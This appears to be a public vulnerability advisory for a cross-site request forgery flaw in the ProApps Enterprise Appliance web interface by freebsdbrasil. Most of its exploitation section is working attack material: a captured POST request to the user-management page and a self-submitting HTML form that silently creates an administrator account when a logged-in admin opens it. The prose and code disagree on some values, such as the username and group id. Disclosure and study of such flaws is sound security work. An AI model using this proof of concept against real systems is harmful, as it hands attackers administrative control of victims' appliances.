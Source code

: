 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Cross-Site Request Forgery (CSRF)

## Description Vulnerability:
CSRF can cause lot of consequences, depending on how the CSRF request is crafted and the application's behavior. In this case, it is a CSRF vulnerability that allows the creation of an administrative account on the web application, resulting in unauthorized access. To exploit a CSRF, the victim needs to be authenticated and have the "Users" management permission set to "Modified" (True).

## Exploitation:
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

As mentioned before, when an authenticated user clicks on the link, the malicious code will send a request to create a new user by the user's web browser. The code below creates a new administrative account in the vulnerable web application with the username `CSRF_POC` and the password `yourpassword`.
The code sends a crafted POST request to the `ger_user page` page with the parameters `login`, `password`, `password2`, `nome`, `gid` and `email` fields. It is important to mention that this page is responsible for creating new users or changing their passwords. Filling the other parameters is optional; all the important ones are already completed and ready to use. Below is the `POST request` to create a new user on the web application:

```
POST /index.php?page=ger_user HTTP/1.1
Host: vulnerablewebsite
Content-Length: 402
Cache-Control: max-age=0
Authorization: XXXXXXXXXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://XXXXXXXX
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vulnerablesite/index.php?page=ger_user
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

task=save&boxchecked=0&hidemainmenu=0&search=&dados%5Bid%5D=&dados%5Bnome%5D=Teste+Blaze&dados%5Blogin%5D=user_test&dados%5Bemail%5D=test%40hotmail.com&dados%5Bgid%5D=2&dados%5Bpassword%5D=test123456&dados%5Bpassword2%5D=test123456&dados%5Bblock%5D=0&dados%5Bblock2%5D=1&dados%5Btotp2fa%5D=0&dados%5Btotp2fa_test%5D=&dados%5Btotp2fa_key%5D=4b818698b94ffb5e92377024f060d531&id=&option=ger_user
```


The code below is creating a new administrative account on the web application.
NOTE: Leave the `gid` parameter is set to 1 to ensure that the account will have administrative permissions, however, it can be changed depending on how the environment is configured.

```
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send CSRF-POST Request</title>
</head>
<body>
    <form action="https://vulnerablesite.com/index.php?page=ger_user" method="POST">
        <!-- Campos do formulário -->
        <input type="hidden" name="task" value="save">
        <input type="hidden" name="boxchecked" value="0">
        <input type="hidden" name="hidemainmenu" value="0">
        <input type="hidden" name="search" value="">

        <input type="hidden" name="dados[id]" value="">
        <input type="hidden" name="dados[nome]" value="POC_CSRF">
        <input type="hidden" name="dados[login]" value="csrf_account">
        <input type="hidden" name="dados[email]" value="csfr@test.com">
        <input type="hidden" name="dados[gid]" value="1">
        <input type="hidden" name="dados[password]" value="yourpassword">
        <input type="hidden" name="dados[password2]" value="yourpassword">
        <input type="hidden" name="dados[block]" value="0">
        <input type="hidden" name="dados[block2]" value="0">
        <input type="hidden" name="dados[totp2fa]" value="0">
        <input type="hidden" name="dados[totp2fa_test]" value="">
        <input type="hidden" name="dados[totp2fa_key]" value="xxxxx">
        <input type="hidden" name="id" value="">
        <input type="hidden" name="option" value="ger_user">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
Once exploited, it is now possible to log into the application and obtain unauthorized access.

## Impact Vulnerability:
CSRF Cross-Site Request Forgery allows creation of an administrative account or account hijacking.

### References:
- https://portswigger.net/web-security/csrf
- https://owasp.org/www-community/attacks/csrf
- https://www.linkedin.com/pulse/from-csrf-account-takeover-unmasking-danger-cross-site-request-lylbf/

